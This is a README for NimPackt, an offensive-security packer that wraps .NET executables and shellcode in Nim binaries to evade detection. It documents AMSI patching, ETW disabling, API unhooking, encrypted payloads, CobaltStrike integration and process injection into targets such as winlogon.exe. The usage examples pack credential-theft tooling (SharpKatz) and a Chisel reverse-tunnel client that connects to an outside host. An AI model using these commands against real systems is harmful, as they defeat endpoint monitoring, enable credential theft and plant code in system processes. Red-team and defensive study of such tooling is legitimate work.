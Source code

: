 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

*By Cas van Cooten (@chvancooten)*

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. Currently, it has the following features.

- Compiles to `exe` or `dll` file
- Various execution methods: `execute-assembly`, `shinject` (local thread), `remoteShinject` (existing or sacrificial process)
- Unhooking User-mode APIs (`Ntdll`) using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Disabling Event Tracing for Windows (ETW) (recommended for 'execute-assembly' method)
- Patching the Anti-Malware Scan Interface (AMSI) (recommended for 'execute-assembly' method)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to re-pack the binary into position-independent shellcode and launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a [ARGUMENTS]] [-r] [-t INJECTTARGET] [-E] [-f FILETYPE] [-32] [-H] [-nu] [-na] [-ne] [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) of executable by compiling it in GUI mode
  -nu, --nounhook       Do NOT unhook user-mode API hooks
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI) (recommended for shellcode)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW) (recommended for shellcode)
  -d, --debug           Enable debug mode (retains .nim source file in output folder).
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept commands at runtime, patching hooks, AMSI, and ETW while printing verbose messages on runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -v

# Pack Seatbelt as a DLL file with baked-in arguments (note: write to outfile because stdout is not available for execute-assembly DLLs)
python3 ./NimPackt.py -f dll -e execute-assembly -i Seatbelt.exe -a "-group=all -outputfile=c:\users\public\downloads\sb.txt"

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -na -ne -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread without patching AMSI or ETW (generally not needed for shellcode)
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll -na -ne

# Pack raw shellcode to execute in a newly spawned Explorer thread (default), enabling verbose log messages in the compiled Nim binary
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -v

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe')
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -E -t "winlogon.exe"
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files should be executed as follows:

```
rundll32 exampleShinjectNimPackt.dll,Update
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used with `exe` files. This probably relates to C# compiling options, need to investigate this further.
- Shellcode doesn't seem to return correctly over all injection methods. This is generally not a problem for local injection (since the Nim thread can die anyway), but for remote injections it will in most instances cause the process to crash once the shellcode returns. For a sacrificial process this might be okay, but for existing processes (-E) this is not acceptable. Need to look into making shellcode properly return.

## Wishlist

- Provide option to evade sandbox fingerprinting (e.g. by performing calculations for 10-30s)
- Stabilize shellcode execution
- Fix "hard parsing" of arguments passed as embedded arguments (e.g. `-a '-arg=value'` not being accepted by `argparse`)
- Patch ETW by patching the actual function call (after Shellycoat) using [this method](https://gist.github.com/S3cur3Th1sSh1t/0f44b1a12c7eceb8f7be10799ba5018d)